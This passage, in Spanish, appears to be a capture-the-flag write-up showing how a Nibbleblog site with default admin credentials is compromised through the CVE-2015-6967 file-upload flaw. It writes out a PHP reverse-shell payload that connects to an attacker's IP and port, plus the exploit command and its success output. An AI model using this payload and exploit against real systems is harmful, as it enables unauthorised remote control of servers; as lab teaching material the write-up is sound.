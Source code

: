 Veremos que si funciona con las credenciales por defecto, por lo que vamos a ver si este `software` tuviera alguna vulnerabilidad.

Vemos que si tiene una vulnerabilidad asociada al `CVE-2015-6967` que es para subir archivos de forma arbitraria.

URL = [Exploit CVE-2015-6967 GitHub](https://github.com/dix0nym/CVE-2015-6967)

Vemos que en la pagina oficial de `Exploit D.B.` vemos la siguiente linea de codigo:

URL = [Exploit D.B. Info](https://www.exploit-db.com/exploits/38489)

```rb
if res && /Call to a member function getChild\(\) on a non\-object/ === res.body
      fail_with(Failure::Unknown, 'Unable to upload payload. Does the server have the My Image plugin installed?')
    elsif res && !( res.body.include?('<b>Warning</b>') || res.body.include?('warn') )
      fail_with(Failure::Unknown, 'Unable to upload payload.')
    end
```

Vemos que nos pone:

```
Unable to upload payload. Does the server have the My Image plugin installed?
```

Por lo que vemos parece ser que la pagina tiene que tener instalado el siguiente `plugin` por lo que nosotros lo instalaremos desde el panel de administrador de la siguiente forma.

## Escalate user www-data

En `Plugins` vemos la siguiente seccion:

<figure><img src="../../.gitbook/assets/image (181) (1).png" alt=""><figcaption></figcaption></figure>

Por lo que le daremos a instalar y le daremos a `Guardar Cambios` una vez echo esto ejecutaremos el exploit de `GitHub` de la siguiente forma:

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

```shell
python3 exploit.py --url http://<IP>/nibbleblog/ --username admin --password admin --payload shell.php
```

Info:

```
[+] Login Successful.
[+] Upload likely successfull.
[+] Exploit launched, check for shell.
```
